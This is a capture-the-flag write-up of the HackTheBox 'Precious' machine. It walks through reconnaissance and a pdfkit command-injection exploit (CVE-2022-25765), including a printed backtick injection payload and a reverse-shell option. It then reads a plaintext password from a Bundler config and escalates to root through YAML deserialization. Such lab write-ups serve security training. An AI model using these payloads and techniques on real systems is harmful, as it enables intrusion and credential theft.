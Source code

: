 ```yaml
---
title: Precious HTB (English)
image: /assets/img/Anexos/Máquina%20Precious.png
description: Precious HTB [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---
```


## Introduction
 Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script. 

### Machine Description


- Name: Precious
- Goal: Get two flags
- Difficulty: easy
- Operating System: Linux
- link: [Precious](https://app.hackthebox.com/machines/513)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/M%C3%A1quina%20Precious.pdf)




## Reconnaissance 

```shell
❯ sudo nmap 10.129.228.98 -sSCV --min-rate 5000 -p- --open -n -Pn -oN scan1.txt
Starting Nmap 7.97 ( https://nmap.org ) at 2025-09-16 21:44 +0200
Nmap scan report for 10.129.228.98
Host is up (8.0s latency).
Not shown: 61977 filtered tcp ports (no-response), 3556 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.27 seconds
```

Nmap reported us the ports `22` and `80`, so it appers the exploitation is via web. 

After adding the _precious.htb_ in _/etc/hosts_ file we can see this page that apparently converts a page to pdf:

![](/assets/img/Anexos/Máquina%20Precious-1.png)

Using `whatweb` we can scan the web fastly.
```shell
❯ whatweb http://precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.129.228.98], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```



![](/assets/img/Anexos/Máquina%20Precious-2.png)

![](/assets/img/Anexos/Máquina%20Precious-3.png)

Indeed, the page makes a request to a given page and generates a PDF from it.

At this point we can try SSRF o code execution, but first we can check metadata about the PDF file generated using `exiftool`:

```shell
❯ exiftool rpsvleim94ozi027l7skl8e2qep7aiyq.pdf
ExifTool Version Number         : 13.36
File Name                       : rpsvleim94ozi027l7skl8e2qep7aiyq.pdf
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2025:09:17 08:44:14+02:00
File Access Date/Time           : 2025:09:17 08:44:14+02:00
File Inode Change Date/Time     : 2025:09:17 08:44:14+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

In the creator field, we see a version, apparently is using the pdfkit library from ruby. So now we can search for a exploit by using `searchsploit`

```shell
❯ searchsploit pdfkit
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
pdfkit v0.8.7.2 - Command Injection                                                   | ruby/local/51293.py
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Explotation 

```shell
❯ python pdf_exploit.py
UNICORD Exploit for CVE-2022–25765 (pdfkit) - Command Injection

Usage:
  python3 exploit-CVE-2022–25765.py -c <command>
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port>
  python3 exploit-CVE-2022–25765.py -c <command> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -h

Options:
  -c    Custom command mode. Provide command to generate custom payload with.
  -s    Reverse shell mode. Provide local IP and port to generate reverse shell payload with.
  -w    URL of website running vulnerable pdfkit. (Optional)
  -p    POST parameter on website running vulnerable pdfkit. (Optional)
  -h    Show this help menu.
```

We can see that the payload generated is just injecting code in the url wrapping the code with -- _'_ -- :   
```shell
python pdf_exploit.py -c 'ping -c2 10.10.16.55'

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Custom Command Mode
PAYLOAD: http://%20`ping -c2 10.10.16.55`
WARNING: Wrap custom command in "quotes" if it has spaces.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.
```


So we can try if that works in this context:
![](/assets/img/Anexos/Máquina%20Precious-4.png)

After confirming a succesfully code execution, the next step is get a rev shell: 

![](/assets/img/Anexos/Máquina%20Precious-5.png)

## Privilage Escalation

Apparently we have to elevate our privilage to _henry_ and the to _root_
```shell
ruby@precious:/var/www/pdfapp/config$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

_bundle_ directory use to usually store sensible data so we can quickly check it as we can confirm is storing _henry password_ 
```shell
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```


Once as henry, we can check if has capacities in sudores and indeed he has, he can execute a ruby script as root:
```shell
henry@precious:~$ sudo -l 
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

This script uses a danger function and a not-fullpath file in addition, so we can leverage via deserialization attack.


For that, I used this poc I found in this blog:
https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

![](/assets/img/Anexos/Máquina%20Precious-6.png)








